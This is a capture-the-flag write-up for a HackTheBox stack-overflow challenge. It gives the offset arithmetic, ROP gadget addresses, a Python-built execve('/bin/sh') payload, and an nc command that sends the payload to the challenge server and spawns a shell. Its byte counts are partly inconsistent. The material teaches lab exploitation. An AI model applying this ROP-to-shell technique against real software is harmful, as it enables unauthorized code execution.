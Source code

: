 ## klxsacre writeup

There's 110 bytes available for the payload. The variable starts at offset 0x30 from `RBP` so 48 + 8 (`RBP`) = 56.

174 (`0xae`) bytes is what `read` will accept.

174 - 56 = 118.
## ROP gadgets:

`402bd8 : pop rdi ; pop rbp ; ret`

`402bd6 : pop rsi ; pop r15 ; pop rbp ; ret`

`418eba : pop rdx ; ret 6` (This will return first and then adds 6 to the stack pointer `add rsp, 6`)

`42adab : pop rax ; ret`

`40141a : syscall`

Address of null-terminated "/bin/sh": `0x0000000000481779`
## Final payload:

`0x0000000000402bd8` => `rdi gadget address` + `0x0000000000481779` + `0x0000000000402bd6` => `rsi gadget address` + `0000000000000000` + `0000000000000000` + `0000000000000000` + `0x0000000000418eba` => `rdx gadget address` + `0000000000000000` + `000000000042adab` => `rax gadget address` + `AAAAAA` + `000000000000003b` + `000000000040141a`

```python
python3 -c "import sys; sys.stdout.buffer.write(
    b'1' +                                         
    b'\n'*30 +                                             
    b'1' +                                          
    b'\n'*30 +                                              
    b'y\n' +                                    
    b'A'*48 +                              # min size                              
    b'B'*8 +                               # accounting for rbp     

    b'\xd8\x2b\x40\x00\x00\x00\x00\x00' +  # pop rdi ; pop rbp ; ret
    b'\x78\x17\x48\x00\x00\x00\x00\x00' +  # rdi = '/bin/sh'
    b'\x00\x00\x00\x00\x00\x00\x00\x00' +  # rbp junk
                                                         
    b'\xd6\x2b\x40\x00\x00\x00\x00\x00' +  # pop rsi ; pop r15 ; pop rbp ; ret
    b'\x00\x00\x00\x00\x00\x00\x00\x00' +  # rsi = 0
    b'\x00\x00\x00\x00\x00\x00\x00\x00' +  # r15 junk
    b'\x00\x00\x00\x00\x00\x00\x00\x00' +  # rbp junk
                                                         
    b'\xba\x8e\x41\x00\x00\x00\x00\x00' +  # pop rdx ; ret 6
    b'\x00\x00\x00\x00\x00\x00\x00\x00' +  # rdx = 0
                                                                 
    b'\xab\xad\x42\x00\x00\x00\x00\x00' +  # pop rax ; ret
    b'AAAAAA' +                             # 6 junk bytes for ret 6
    b'\x3b\x00\x00\x00\x00\x00\x00\x00' +  # rax = 59 (execve)
    # by the time we get her,e rax = 0x3b; rdi => "/bin/sh"; rsi = 0; rdx = 0.                                              
    b'\x1a\x14\x40\x00\x00\x00\x00\x00'    # syscall
)" > pl.bin
```
## Solving the challenge:

`(cat pl.bin; cat) | nc 94.237.120.195 58183`
`cat flag.txt` (on the payload-spawned shell)

## Flag

`HTB{p0w3R_g41d_r34ct1on_3c47b...}`

## Notes:

* The `read_num` function reads 31 bytes from the input stream, so the panel option (`1`) needs to be padded with 30 whitespaces or line feeds before being sent.

* The same goes for the second panel.

* This doesn't happen when you are prompted a y/n option. In this case, only two bytes are read, which is why there's only `y\n` for the third prompt.

* There's 118 bytes available for the payload, out of which: 8 (`rdi gadget address`) + `8 (/bin/sh string)` + 8 (`padding for rbp in rdi gadget`) + 8 (`rsi gadget address`) + 8 (`rsi value, which is NULL`) + 16 (`padding for r15 and rbp in rsi gadget`) + 8 (`rdx gadget`) + 8 (`rdx value, which is NULL`) + 8 (`rax gadget`) + 6 (`padding for the ret 6 instruction in rdx gadget`) + 8 (`rax value, which is 0x3b, the syscall number for exec`) + 8 (`syscall gadget`) = 102 bytes are being used.


